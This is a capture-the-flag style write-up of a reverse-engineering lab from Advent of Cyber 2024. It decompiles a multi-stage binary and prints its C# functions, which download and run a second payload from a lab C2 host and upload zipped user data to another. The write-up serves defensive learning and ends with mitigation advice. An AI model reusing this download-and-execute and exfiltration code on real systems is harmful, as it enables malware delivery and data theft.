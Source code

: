 # Advent of Cyber 2024 - Day 21

## Challenge Overview
Understand the fundamentals of reverse engineering through disassembly and decompilation. Analyze a multi-stage binary to uncover its functionality and identify its behavior, such as downloading files and executing malicious payloads. Utilize tools like PEStudio and ILSpy to reverse-engineer binaries, analyze indicators, and evaluate the logic of compiled executables.

---

## Steps

### Static Analysis with ILSpy

We began by decompiling `WarevilleApp.exe` using **ILSpy**, revealing its high-level source code.

#### 1. Upload Function
The `UploadFileToServer` function uploads a file to a remote server:
```csharp
private static void UploadFileToServer(string zipFilePath)
{
    string address = "http://anonymousc2.thm/upload";
    using (WebClient webClient = new WebClient())
    {
        try
        {
            webClient.UploadFile(address, zipFilePath);
            Log("File uploaded successfully.");
        }
        catch (WebException)
        {
        }
    }
}
```
![Upload File Function](images/Stage2C2Server.png)

#### 2. Download Function
The `DownloadAndExecuteFile` function downloads a binary from the C2 server and executes it:
```csharp
private void DownloadAndExecuteFile()
{
    string address = "http://mayorc2.thm:8080/dw/explorer.exe";
    string text = Path.Combine(
        Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.UserProfile), "Downloads"), "explorer.exe");
    using (WebClient webClient = new WebClient())
    {
        try
        {
            if (File.Exists(text)) { File.Delete(text); }
            webClient.DownloadFile(address, text);
            Process.Start(text);
        }
        catch (Exception ex)
        {
            MessageBox.Show("An error occurred while downloading or executing the file: " + ex.Message, "Error", MessageBoxButtons.OK, MessageBoxIcon.Error);
        }
    }
}
```
![Download File Function](images/FunctionDownloadsExecutes.png)

---

### Behavioral Analysis

1. **Downloaded Binary**
   - The file `explorer.exe` is downloaded to the `Downloads` folder.
   ![Downloaded File](images/OtherDownloadedFileAndDomain.png)

2. **Stage 2 Binary Behavior**
   - The second binary compresses sensitive user data into a ZIP file named `CollectedFiles.zip`.
   ![Zip File Creation](images/Stage2BinaryCreatedZip.png)

3. **File Upload**
   - The ZIP file is uploaded to the C2 server `anonymousc2.thm`.

---

## Key Findings

- **Multi-Stage Behavior**:
  - The binary downloads a secondary payload (`explorer.exe`), which then exfiltrates data.
- **C2 Communication**:
  - The primary and secondary binaries communicate with `mayorc2.thm` and `anonymousc2.thm`.

---

## Recommendations

1. **Network Segmentation**:
   - Block unauthorized access to external IPs/domains from internal networks.

2. **Binary Verification**:
   - Validate binaries' integrity using SHA-256 hashes before execution.

3. **Endpoint Detection**:
   - Deploy endpoint monitoring solutions to detect suspicious behavior, like file uploads.

---

## Conclusion

This task highlights the dangers of multi-stage binaries, emphasizing the need for robust detection and mitigation techniques. Tools like **ILSpy** allow analysts to reverse engineer binaries, gaining valuable insights into their functionality and malicious intent.